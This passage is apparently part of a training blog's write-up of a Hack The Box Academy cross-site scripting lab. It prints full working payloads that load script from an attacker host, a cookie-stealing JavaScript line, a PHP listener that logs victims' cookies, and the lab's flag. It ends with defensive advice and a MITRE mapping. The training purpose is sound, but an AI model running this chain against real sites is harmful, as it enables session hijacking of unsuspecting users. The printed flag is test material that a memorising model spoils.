
*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


### Here is the request at how its seen in burpsuite

Now – we enter the following payload to every input field one by one:
<script src=http://[attaker-IP]:8081></script>
'><script src=http://[attaker-IP]:8081></script>
"><script src=http://[attaker-IP]:8081></script>
javascript:eval('var
a=document.createElement(\'script\');a.src=\'http://[attaker
-IP]:8081\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new
XMLHttpRequest();a.addEventListener("load", b);a.open("GET",
"//[attaker-IP]:8081");a.send();</script>
<script>$.getScript("http://[attaker-IP]:8081")</script>
Until we see a incoming traffic to our netcat listener .

Now – I will tell you upfront that the vulnerable input field is the 'Profile Picture
URL' field.
Here is the request at how its seen in burpsuite:


And the netcat incoming request:


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


### lets exploit it

Now that we have confirmed that the vulnerable input field is the image URL –
lets exploit it:
First we have to create some files on the pwnbox:
'index.js' and 'index.php'
Lets start with index.js:
touch index.js
in it we put the content:
new Image().src='http://<attacker-
IP>:8081/index.php?c='+document.cookie


The next one is index.php:
touch index.php
in it we put the content:
<?php
if (isset($_GET['c'])) {
$list = explode(";", $_GET['c']);
foreach ($list as $key => $value) {
$cookie = urldecode($value);
$file = fopen("cookies.txt", "a+");
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} |
Cookie: {$cookie}\n");
fclose($file);
}
}
?>


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


### using the command

#### Technical Methodology & Exploit Execution:

```bash
sudo php -S 0.0.0.0:8081
```


Now that the php listener in on, lets inject to the image URL the following
payload:
<script src=http://[attacker-IP]:8081/index.js></script>
'><script src=http://[attacker-IP]:8081/index.js></script>
"><script src=http://[attacker-IP]:8081/index.js></script>
javascript:eval('var
a=document.createElement(\'script\');a.src=\'http://[attacke
r-IP]:8081/index.js\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new
XMLHttpRequest();a.addEventListener("load", b);a.open("GET",
"//[attacker-IP]:8081/index.js");a.send();</script>
<script>$.getScript("http://[attacker-
IP]:8081/index.js")</script>
*make sure to replace all 6 occurrences of '[attacker-IP]' with your own
attacker IP . *


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### Lets insert the cookie in the firefox cookie editor

We have the cookie! 'cookie=c00k1355h0u1d8353cu23d'
*note – if we run the php listener without sudo – we still get the cookie:

But there will be some errors in communication. *

Now that we have the cookie – lets go to
http://<target-IP>/hijacking/login.php


Lets insert the cookie in the firefox cookie editor:


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


*_Figure 16.3 — Lab execution and output verification (Page 16)_*


*_Figure 16.4 — Lab execution and output verification (Page 16)_*


### Refresh the page

Refresh the page:


**note – if you encounter with 'First Party Isolation' in firefox – follow those
steps:


And restart the browser. **


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


*_Figure 17.3 — Lab execution and output verification (Page 17)_*


### Capstone: Skills Assessment

> **Lab Question (Page 18)**: What is the value of the 'flag' cookie?
>
> **Flag / Answer**: `HTB{cr055_5173_5cr1p71n6_n1nj4}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for the skills assessment – we are provided with the '/assessment'
folder to investigate:
http://<target-IP>/assessment
we get to this security blog page:

Further down

there is the Recent Post 'Welcome to Security Blog', lets enter it:


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


### index.js

I will tell you directly that the vulnerable input field is the Website.
We will have to retrace our steps from 'Session Hijacking' section to exploit the
XXS vulnerable input field – which means setting up index.js, index.php, and
```bash
run php listener .
```

index.js:
new Image().src='http://<attacker-
IP>:8081/index.php?c='+document.cookie


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### index.php

index.php:
<?php
if (isset($_GET['c'])) {
$list = explode(";", $_GET['c']);
foreach ($list as $key => $value) {
$cookie = urldecode($value);
$file = fopen("cookies.txt", "a+");
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} |
Cookie: {$cookie}\n");
fclose($file);
}
}
?>


You will notice that both index.js and index.php are the EXACT the same as
their equivalent in 'Session Hijacking'.

The php listener is also identical:
```bash
sudo php -S 0.0.0.0:8081
```


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


### however, our input will be the following

Now that everything in the receiver side is ready – lets 'leave a comment'.
The Comment, Name and Email can be normal input values. For the Website
however, our input will be the following:
<script src=http://10.10.14.129:8081/index.js>


And Post Comment..


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


When the comment was posted: we will get this at the php listener

Flag included.


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1189, T1059.007, T1539` |
| **Common Weakness Enumerations** | `CWE-79` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1189`](https://attack.mitre.org/techniques/T1189/) | **Drive-by Compromise** | `Initial Access` | Delivering malicious scripts to victim browsers via stored or reflected inputs |
| [`T1059.007`](https://attack.mitre.org/techniques/T1059/) | **Command and Scripting Interpreter: JavaScript** | `Execution` | Executing JavaScript in the context of the user's session |
| [`T1539`](https://attack.mitre.org/techniques/T1539/) | **Steal Web Session Cookie** | `Credential Access` | Exfiltrating session cookies via `document.cookie` |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-79`: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Implement a robust Content Security Policy (CSP) with `script-src 'self'` and nonces, disallowing `unsafe-inline` and `unsafe-eval`.
- Set the `HttpOnly` cookie flag on all sensitive session cookies to prevent programmatic access via JavaScript.
- Apply contextual output encoding (HTML, JavaScript, Attribute, CSS) before rendering dynamic data into HTML documents.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/103) — *Official Hack The Box curriculum track*
- [OWASP Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) — *Authoritative remediation guidelines*
- [PortSwigger: Cross-site Scripting (XSS)](https://portswigger.net/web-security/cross-site-scripting) — *Web Security Academy comprehensive tutorials*
- [PayloadsAllTheThings: XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) — *Modern XSS filter bypasses and payloads*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-27-hacking-wordpress/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 27: Hacking WordPress (WPScan to Remote Code Execution)</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 28 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-29-file-upload-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 29: File Upload Attacks & Web Shell Weaponization</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
